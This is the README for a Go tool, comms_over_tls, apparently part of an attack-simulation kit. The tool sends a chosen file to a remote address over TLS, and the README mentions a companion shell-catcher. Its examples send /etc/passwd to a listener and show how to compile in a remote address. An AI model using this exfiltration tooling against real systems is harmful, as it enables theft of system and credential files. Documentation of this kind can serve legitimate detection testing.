 Comms over TLS
===============
Nearly the same as [`argv_from_file_descriptor`](../argv_from_file_descriptor)
but uses TLS for its comms instead of plaintext TCP.

A crude shell-catcher may be found in the
[`letsencryptshellcatcher`](../letsencryptshellcatcher) directory.

File Descriptor
---------------
The address and file as whitespace-separated words from file descriptor 7, and
override the environment variables.  If only one word is read, it is taken to
be the address.

### Examples
Set the address and file via a heredoc:
```sh
./comms_over_tls 7<<_eof
localhost:5555 /etc/passwd
_eof
```

Set just the address via bash's Here String:
```sh
./bin/comms_over_tls 7<<<"localhost:5555"
```

Environment Variables
---------------------
The address and file may be set with environment variables, overriding
compile-time settings, as follows

Default Variable   | Description
-------------------|------------
`ALPT4ATS_ADDRESS` | TLS Server Address
`ALPT4ATS_FILE`    | File to send on the TLS connection

The variable names may be changed at compile-time, as below.

Compile-time Config
-------------------
Compile time configuration is possible with the linker's `-X` (as in 
`go build -ldflags '-X main.Foo=bar'`).  The variables are as follows

Variable                                        | Default            | Description
------------------------------------------------|--------------------|------------
[`main.Address`](./comms_over_tls.go#L26)       | `localhost:4444`   | TLS Server Address
[`main.AddressEnvVar`](./comms_over_tls.go#L27) | `ALPT4ATS_ADDRESS` | Environment variable which sets the TLS Server Address
[`main.File`](./comms_over_tls.go#L28)          | `/etc/hosts`       | File to send on the TLS connection
[`main.FileEnvVar`](./comms_over_tls.go#L29)    | `ALPT4ATS_FILE`    | Environment variable which sets the File to send on the TLS connection

When building with the [Makefile](../../Makefile) these may be passed in with
the `LINKFLAGS` environment variable, as in
```sh
LINKFLAGS="-X main.Address=example.com:8080" make
```
